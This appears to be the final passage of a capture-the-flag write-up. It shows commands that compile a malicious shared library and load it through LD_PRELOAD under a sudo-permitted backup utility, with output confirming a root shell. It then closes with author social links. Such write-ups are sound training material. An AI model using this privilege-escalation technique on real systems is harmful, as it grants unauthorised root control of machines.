 Using the [article](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/) at Hacking Articles provides a great step by step on how to exploit this. I created the shell.c file as per the article and run the sudo command to become root!

```highlight
webdeveloper@sky:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# 
```

Thanks for reading!

============================================================

Any comments or feedback welcome! You can find me on [twitter](https://twitter.com/dazbrownfield).

<a href="https://www.buymeacoffee.com/dazbrownfield" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

